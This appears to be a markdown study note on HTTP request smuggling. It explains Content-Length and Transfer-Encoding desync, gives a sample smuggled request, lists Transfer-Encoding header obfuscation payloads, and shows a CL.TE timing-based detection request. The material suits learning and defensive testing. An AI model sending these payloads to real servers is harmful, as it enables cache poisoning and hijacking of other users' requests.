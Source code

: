 # Core Concepts 
HTTP/1.1 allows sending multiple requests in a single HTTP connection.
requests are aligned sequentially and the servers parsers the headers to 
determine a request begins and ends and where another starts. 

This of course is harmless but with the modern natures of systems, 
distributed and communicated with each using HTTP, a semantic gap is 
created where there is a gap btn a front-end server and a back-end 
server and these two/more servers tend to parse these HTTP requests 
slightly differently. 

# On Transfer-Encoding and Content-Length
If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the latter **MUST** be ignored.
Whenever we find a way to hide the Transfer-Encoding header from one server in a chain it will fall back to using the Content-Length and we can desynchronize the whole system

# TE.TE 
A scenario where both the back end and front end server 
support Transfer-Encoding but one can be induced to ignore 
the header by obfuscating the header value. 

# Sample Request
    POST / HTTP/1.1
    Host: example.com
    Content-Length: 6
    Transfer-Encoding: chunked

    0\r\n
    G\r\n
    \r\n
    POST / HTTP/1.1
    Host: example.com


    0 (1 byte)
    \r\n (carriage return + line feed, 2 bytes)
    G (1 byte)
    \r\n (carriage return + line feed, 2 bytes)


# Obfuscating Payloads 
    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked


# Detecting HTTP Request Smuggling
I'll refer to this orientation as `CL.TE` for short. 
We can detect potential request smuggling by sending the following request:

    POST /about HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    Z
    Q

Thanks to the short Content-Length, the front end will forward the blue text only, 
and the back end will time out while waiting for the next chunk size. 
This will cause an observable time delay.

If both servers are in sync `TE.TE` or `CL.CL`, the request will either be rejected by the front-end or 
harmlessly processed by both systems. Finally, if the desync occurs the other way around `TE.CL`
the front-end will reject the message without ever forwarding it to the back-end, 
thanks to the invalid chunk size `Q`. This prevents the back-end socket from being poisoned.



# Further Research:
[Varnish](https://docs.varnish-software.com/security/VSV00011/)

# Real World Exploits
[Request Smuggling -> Web Cache Poisoning](https://hackerone.com/reports/919175)